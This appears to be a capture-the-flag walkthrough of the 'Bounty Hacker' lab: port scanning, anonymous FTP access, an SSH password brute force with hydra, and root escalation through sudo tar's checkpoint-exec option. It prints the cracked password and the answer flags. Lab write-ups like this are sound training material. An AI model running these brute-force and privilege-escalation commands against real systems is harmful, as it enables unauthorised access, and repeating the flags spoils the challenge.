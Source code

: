 # Bounty Hacker
export IP=10.10.41.201
## 1 - Deploy the machine. 

## 2 - Find open ports on the machine 

cmd: nmap -sC -sV -oN nmap/initial $IP

```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.128.84
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

```

## 3 - Who wrote the task list?  

cmd: ftp $IP
Name: Anonymous
Password: < empty >

```
dir

-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
```

The tasks, at the bottom, says lin

### Answer: lin

## 4 - What service can you bruteforce with the text file found?

### Answer: ssh

## 5 - What is the users password? 

Lets use hydra<br>
cmd: hydra -l "lin" -P ./ftp_files/locks.txt -t 4 ssh://$IP:22

```
RESULTS:
[22][ssh] host: 10.10.41.201   login: lin   password: RedDr4gonSynd1cat3
```

### Answer: RedDr4gonSynd1cat3

## 5- user.txt

```
cat user.txt
THM{CR1M3_SyNd1C4T3}
```

### Answer: THM{CR1M3_SyNd1C4T3}

## 6 - root.txt

before launching an enumeration script for privesc, lets check sudo -l

```
sudo -l

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

Lets check gtfobins for tar!<br>
We got multiple ways, lets use this
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

whoami
root

cat /root/root.txt
THM{80UN7Y_h4cK3r}
```

### Answer: THM{80UN7Y_h4cK3r}